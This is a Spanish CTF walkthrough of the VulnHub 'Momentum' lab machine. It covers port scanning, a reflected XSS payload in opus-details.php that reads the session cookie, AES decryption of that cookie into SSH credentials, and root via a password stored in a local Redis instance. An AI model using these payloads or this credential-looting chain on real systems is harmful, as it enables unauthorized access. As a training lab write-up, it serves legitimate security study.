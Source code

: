 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Momentum VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 15:02 EDT
Nmap scan report for 192.168.5.191
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5c:8e:2c:cc:c1:b0:3e:7c:0e:22:34:d8:60:31:4e:62 (RSA)
|   256 81:fd:c6:4c:5a:50:0a:27:ea:83:38:64:b9:8b:bd:c1 (ECDSA)
|_  256 c1:8f:87:c1:52:09:27:60:5f:2e:2d:e0:08:03:72:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Momentum | Index 
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:C9:EA:BD (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

### Puerto 80

Si leemos el codigo vemos un apartado que pone lo siguiente...

```html
<head>
    <link rel="stylesheet" type="text/css" href="css/style.css">
    <script type="text/javascript" src="js/main.js"></script>
    <title>Momentum | Index </title>
</head>
```

Y si nos metemos en ese `js/main.js` vemos lo siguiente...

```js
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

Vemos que hay un `opus-details.php` y con el parametro `id=`, si vamos a la siguiente `URL`...

```
URL = http://<IP>/opus-details.php
```

Vemos que existe el `.php` ahora probaremos alguna inyeccion de `XSS` en el parametro `id=`...

```
URL = http://<IP>/opus-details.php?id=<h1>XSS</h1>
```

Y veremos que ciertamente se ejecuta a parte de que se muestra en la pagina...

Ya que sabemos que es vulnerable al `XSS` haremos lo siguiente...

Robaremos la `Cookie` y por lo que dice el texto que encontramos en `Java` lo desencriptaremos utilizando la contraseña proporcionada...

```
 URL = http://<IP>/opus-details.php?id=<script>alert(document.cookie)</script>
```

> Cookie

```
U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt
```

> Key

```
SecretPassphraseMomentum
```

URL = https://www.browserling.com/tools/aes-decrypt

Lo desencriptamos en esa `URL`, una vez decodificado veremos lo siguiente...

```
auxerre-alienum##
```

Por lo que parece son las credenciales del usuario `auxerre`...

```
User = auxerre
Password = auxerre-alienum##
```

```shell
ssh auxerre@<IP>
```

Una vez estemos dentro leemos la flag...

> user.txt (flag1)

```
[ Momentum - User Owned ]
---------------------------------------
flag : 84157165c30ad34d18945b647ec7f647
---------------------------------------
```

Si hacemos lo siguiente...

```shell
ss -nltp
```

Vemos los procesos con sus puertos y entre ellos esta este proceso trabajando en el `localhost` y si investigamos que es, es un servidor web utilizando `redis`...

```
LISTEN               0                    128                                    127.0.0.1:6379                                   0.0.0.0:*
```

Por lo que haremos lo siguiente para ver las claves que hay...

```shell
redis-cli
```

Info:

```
127.0.0.1:6379> keys *
1) "rootpass"
127.0.0.1:6379> get rootpass
"m0mentum-al1enum##"
127.0.0.1:6379> exit
```

Veremos que hemos descubierto una contraseña la cual va a ser la contraseña de `root`, por lo que...

```shell
su root
```

Y una vez metamos esa `password` seremos `root`, por lo que leeremos la flag...

> root.txt (flag2)

```
[ Momentum - Rooted ]
---------------------------------------
Flag : 658ff660fdac0b079ea78238e5996e40
---------------------------------------
by alienum with <3
```
